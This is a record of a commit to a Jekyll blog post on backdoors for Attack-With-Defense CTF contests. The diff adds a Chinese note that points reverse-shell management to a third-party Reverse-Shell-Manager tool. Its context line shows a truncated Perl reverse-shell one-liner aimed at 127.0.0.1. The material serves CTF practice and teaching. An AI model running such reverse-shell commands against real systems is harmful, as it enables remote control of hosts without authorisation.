

Before and after one commit to mo-xiaoxi/mo-xiaoxi.github.io, a Jekyll site: the page built from _posts/2018-08-21-AWDbackdoor.md, in a window 1280 px wide and 900 px high, scrolled down 5802 px. Shown: the whole window, without its empty margins (233-1235 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
add shell manager

```diff
--- a/_posts/2018-08-21-AWDbackdoor.md
+++ b/_posts/2018-08-21-AWDbackdoor.md
@@ -324,4 +324,6 @@ perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getproto
 
 5. mysql sleep型dos
 
-6. ....
+6. 所有的正向shell可以自己写一段简单的python脚本进行控制与管理，而反向shell可以使用[王一航写的反向shell管理器](https://github.com/WangYihang/Reverse-Shell-Manager).现在的反向shell管理器还存在一些bug。
+
+7. ....
```
